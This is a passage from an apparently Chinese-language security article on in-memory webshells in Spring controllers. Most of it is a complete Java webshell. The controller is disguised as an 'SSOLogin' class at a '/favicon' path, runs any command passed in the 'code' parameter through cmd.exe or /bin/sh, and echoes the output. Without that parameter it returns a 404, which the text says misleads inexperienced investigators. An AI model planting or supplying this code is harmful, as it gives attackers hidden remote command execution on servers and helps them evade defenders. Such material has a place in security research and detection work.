 ### controller 中的 Webshell 逻辑

在使用 registerMapping 动态注册 controller 时，不需要强制使用 [@RequestMapping](https://github.com/RequestMapping) 注解定义 URL 地址和 HTTP 方法，其余两种手动注册 controller 的方法都必须要在 controller 中使用[@RequestMapping](https://github.com/RequestMapping) 注解 。

除此之外，将 Webshell 的代码逻辑写在主要的 Controller 方法中即可。

下面提供一个简单的用来执行命令回显的 Webshell 代码示例：

```python
package me.landgrey;

import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.RequestMapping;

import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.PrintWriter;

@Controller
public class SSOLogin {

    @RequestMapping(value = "/favicon")
    public void login(HttpServletRequest request, HttpServletResponse response){
        try {
            String arg0 = request.getParameter("code");
            PrintWriter writer = response.getWriter();
            if (arg0 != null) {
                String o = "";
                java.lang.ProcessBuilder p;
                if(System.getProperty("os.name").toLowerCase().contains("win")){
                    p = new java.lang.ProcessBuilder(new String[]{"cmd.exe", "/c", arg0});
                }else{
                    p = new java.lang.ProcessBuilder(new String[]{"/bin/sh", "-c", arg0});
                }
                java.util.Scanner c = new java.util.Scanner(p.start().getInputStream()).useDelimiter("\A");
                o = c.hasNext() ? c.next(): o;
                c.close();
                writer.write(o);
                writer.flush();
                writer.close();
            }else{
                response.sendError(404);
            }
        }catch (Exception e){
        }
    }
}
```

代码比较简单，达到的效果是，当请求没有携带指定的参数\(code\)时，返回 404 错误，当没有经验的人员检查时，因为 Webshell 仅存在于内存中，直接访问又是 404 状态码，所以很可能会认为 Webshell 不存在或者没有异常了。
